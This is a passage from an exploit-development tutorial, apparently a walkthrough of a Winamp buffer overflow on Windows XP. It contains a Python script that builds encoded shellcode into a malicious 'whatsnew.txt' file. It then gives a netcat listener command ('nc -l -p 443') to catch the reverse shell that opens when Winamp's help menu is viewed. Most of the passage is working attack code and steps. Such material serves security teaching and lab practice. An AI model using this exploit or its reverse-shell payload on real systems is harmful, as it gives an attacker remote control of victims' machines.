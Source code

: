 ```python
buf += "\x6e\x9d\x82\x96\x37\x7b\x64\xa6\x27\x24\xd9\x02\x2c"
buf += "\xc9\x0e\x3f\x6f\x86\xe3\x72\x8f\x56\x6c\x04\xfc\x64"
buf += "\x33\xbe\x6a\xc5\xbc\x18\x6d\x2a\x97\xdd\xe1\xd5\x18"
buf += "\x1e\x28\x12\x4c\x4e\x42\xb3\xed\x05\x92\x3c\x38\x89"
buf += "\xc2\x92\x93\x6a\xb2\x52\x44\x03\xd8\x5c\xbb\x33\xe3"
buf += "\xb6\xd4\xde\x1e\x51\x1b\xb6\x21\x25\xf3\xc5\x21\x24"
buf += "\xbf\x43\xc7\x4c\xaf\x05\x50\xf9\x56\x0c\x2a\x98\x97"
buf += "\x9a\x57\x9a\x1c\x29\xa8\x55\xd5\x44\xba\x02\x15\x13"
buf += "\xe0\x85\x2a\x89\x8c\x4a\xb8\x56\x4c\x04\xa1\xc0\x1b"
buf += "\x41\x17\x19\xc9\x7f\x0e\xb3\xef\x7d\xd6\xfc\xab\x59"
buf += "\x2b\x02\x32\x2f\x17\x20\x24\xe9\x98\x6c\x10\xa5\xce"
buf += "\x3a\xce\x03\xb9\x8c\xb8\xdd\x16\x47\x2c\x9b\x54\x58"
buf += "\x2a\xa4\xb0\x2e\xd2\x15\x6d\x77\xed\x9a\xf9\x7f\x96"
buf += "\xc6\x99\x80\x4d\x43\xa9\xca\xcf\xe2\x22\x93\x9a\xb6"
buf += "\x2e\x24\x71\xf4\x56\xa7\x73\x85\xac\xb7\xf6\x80\xe9"
buf += "\x7f\xeb\xf8\x62\xea\x0b\xae\x83\x3f"

with open('whatsnew.txt', 'w') as file:
    file.write(buf)
```


**Step 5: Remote listener and run exploit**

To catch the TCP reverse shell triggered by the shellcode, ensure that the remote host is listening, e.g. on a remote kali box:

    nc -l -p 443

Now trigger the exploit by viewing the help menu in winamp, using the payload prepared by the python script above. You will see the netcat listener now has a DOS prompt remotely running on the windows XP host.




# 
